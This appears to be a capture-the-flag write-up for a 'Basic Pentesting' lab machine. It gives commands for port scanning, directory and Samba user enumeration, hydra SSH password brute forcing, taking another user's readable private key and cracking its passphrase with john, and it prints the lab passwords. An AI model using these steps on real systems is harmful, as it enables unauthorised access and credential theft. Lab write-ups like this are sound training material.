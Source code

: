 ```yaml
---
tags: [Rooms]
title: Basic Pentesting
created: '2020-05-15T16:28:05.623Z'
modified: '2020-05-15T23:00:25.720Z'
---
```


# Basic Pentesting

Nmap scan of the machine:

```
nmap -sV -sC -p- 10.10.157.63 -T4 -v
```

Port 80 is open and contains a web application. The application main page states that it's undergoing maintenance.

Perform directory/file enumeration with gobuster:

```
gobuster dir -u http://10.10.157.63 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 50 -e
```

This reveals a `/development` directory with two **.txt** files. This files reveal that there are two users, one starting with **j** and one with **k**.

The host has Samba enabled (probably a Windows machine) so we can use **enum4linux** to obtain usernames in the machine:

```
enum4linux -a 10.10.157.63
```

The **-a** paramter specifies to perform a simple all enumeration.

We obtain the complete usernames for both users:

```
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
```

Since one of the .txt files pointed out that **jan** had a weak password, we can proceed to perform a bruteforce attack on its SSH password with hydra:

```
hydra -l jan -P Documents/Tools/SecLists/Passwords/darkweb2017-top10000.txt 10.10.157.63 ssh
```

This gives us the following password for the user `armando`.

We can now connect via SSH to the machine:

```
ssh jan@10.10.157.63
```

After login with the user **jan**, we can discover that there are 2 home directories (for the 2 users we enumerated previously):

```
drwxr-xr-x 2 root root 4096 Apr 23  2018 jan
drwxr-xr-x 5 kay  kay  4096 Apr 23  2018 kay
```

Inside the home directory for **kay** we can find that the directory **.ssh** is readable:

```
drwxr-xr-x 2 kay kay 4096 Apr 23  2018 .
drwxr-xr-x 5 kay kay 4096 Apr 23  2018 ..
-rw-rw-r-- 1 kay kay  771 Apr 23  2018 authorized_keys
-rw-r--r-- 1 kay kay 3326 Apr 19  2018 id_rsa
-rw-r--r-- 1 kay kay  771 Apr 19  2018 id_rsa.pub
```

We can use the id_rsa (private key) to connect to the machine as the **kay** user:

```
ssh -i id_rsa kay@127.0.0.1
```

However, the private key is passsword protected.
Therefore, we need to crack it before being able to use it. First, we copy the contents of the **id_rsa** key to our host, then we convert the key to a valid hash format for john and we finally use **john** to crack it:

```
/usr/share/john/ssh2john.py id_rsa > john_id_rsa.hash
sudo john --wordlist=/home/dent0n/Documents/Tools/SecLists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt john_id_rsa.hash
```

This gives us the following password for the SSH private key `beeswax`.

We can now proceed to login to the machine via SSH with the private key of **kay**:

```
ssh -i id_rsa kay@127.0.0.1
```

Once inside, we can read the contents of the file **pass.bak** which containts the flag.









